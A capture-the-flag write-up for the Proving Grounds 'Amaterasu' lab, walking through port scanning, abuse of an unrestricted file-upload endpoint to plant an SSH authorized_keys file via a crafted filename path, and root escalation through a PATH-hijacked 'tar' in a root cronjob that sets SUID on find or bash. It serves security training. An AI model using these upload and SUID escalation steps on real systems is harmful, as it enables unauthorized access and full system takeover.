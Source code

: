 ```yaml
---
title: "Proving grounds Play: Amaterasu"
layout: post
date: 2023-09-22 02:00
categories: writeup
---
```


Proving grounds Play - Amaterasu CTF writeup.

## Nmap

```sh
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
25022/tcp open  ssh     OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 68c605e8dcf29a2a789beea1aef6381a (ECDSA)
|_  256 e989ccc21714f3bc6221064a5e7180ce (ED25519)
33414/tcp open  unknown
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.3 Python/3.9.13
|     Date: Fri, 22 Sep 2023 01:48:00 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
40080/tcp open  http    Apache httpd 2.4.53 ((Fedora))
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.53 (Fedora)
|_http-title: My test page
```

## PORT 21: FTP

The FTP service got us nothing.

## Web PORT: 33414

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/web.png)

### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/dir.png)

Upon directory fuzzing the file `/help` has been discovered and below is the response for the file.

http://192.168.193.249:33414/help

```json
[
  "GET /info : General Info",
  "GET /help : This listing",
  "GET /file-list?dir=/tmp : List of the files",
  "POST /file-upload : Upload files"
]
```

The above are RESTAPI endpoints and it's operations.

### Endpoint: /file-list?dir=/tmp

The endpoint allows the enduser to list the directories in the system. It won't allow users to view file but to list the directories only.

### Endpoint: /file-upload

The endpoint allows the enduser to upload files to the system, by abusing this feature the attacker can upload his/her `id_rsa.pub` file as `authorrized_keys` to the system and later obtain user shell vis SSH login.

## File Upload

Generate SSH key and rename the `id_rsa.pub` file to `authorized_keys.txt`. Use the below curl command to upload the file directly to the `/home/alfredo/.ssh/` folder by specifying the location `/home/alfredo/.ssh/authorized_keys` in the filename.

```sh
curl -L -i -X POST -H "Content-Type: multipart/form-data" -F file="@/home/naveenj/pg-play/Amaterasu/authorized_keys.txt" -F filename="/home/alfredo/.ssh/authorized_keys" http://192.168.193.249:33414/file-upload
```

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/upload.png)

SSH to user alfredo using the port 25022.

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/shell.png)

**Initial Foothold Obtained**

## Privilege Escalation

### Cronjob

```sh
[alfredo@fedora restapi]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/1 * * * * root /usr/local/bin/backup-flask.sh
```

There is a cronjob running as root which executes the `/usr/local/bin/backup-flask.sh` bash script.

### /usr/local/bin/backup-flask.sh

```sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

let's check the permission of the bash script, if the current user has write permission then it's easy to obtain root.

But unfortunately only root user has read, write and execute permissions for the script.

```sh
-rwxr-xr-x. 1 root root 106 Mar 28 03:18 /usr/local/bin/backup-flask.sh
```

As shown in the above script on line 4 it executes `tar` binary as root to extract a file, which can abused by create a script named `tar` inside the restapi folder.

Create a bash script with file name as `tar` only with below contents.

```sh
#!/bin/bash

chmod u+s /usr/bin/find
```
Apply executable permissions `chmod +x tar`.

So once the above code executes, we will be able to obtain root by using the SUID bypass exploit for the binary `find`. There are other alternatives are there instead of using binary `find` we can use `/usr/bin/bash` as well.

```sh
#!/bin/bash

cp /bin/bash /home/alfredo/restapi/bash; chmod u+s /home/alfredo/restapi/bash;
```

Once the script is executed as root, it copies `bash` to restapi folder and applies permission to execute the binary as owner in our case that would be the root user and that the SUID bit is set.

After the bash binary is placed in the restapi folder check the file permissions and execute the below to obtain root.

```sh
[alfredo@fedora restapi]$ pwd
/home/alfredo/restapi
[alfredo@fedora restapi]$ ls -al
total 1372
drwxr-xr-x. 3 alfredo alfredo      77 Sep 22 02:26 .
drwx------. 4 alfredo alfredo     127 Mar 28 03:18 ..
-rw-r--r--. 1 alfredo alfredo     198 Mar 28 03:18 app.py
-rwsr-xr-x  1 root    root    1390080 Sep 22 02:31 bash
-rw-r--r--. 1 alfredo alfredo    2509 Mar 28 03:18 main.py
drwxr-xr-x. 2 alfredo alfredo      32 Mar 28 03:18 __pycache__
-rwxr-xr-x  1 alfredo alfredo      92 Sep 22 02:25 tar
[alfredo@fedora restapi]$ ./bash -p
bash-5.1# whoami
root
bash-5.1#
```

Wait for 60 seconds for the cronjob to complete, then use the below command to obtain root.

```sh
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![img](/assets/images/CTF/Proving_Grounds/Amaterasu/root.png)

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).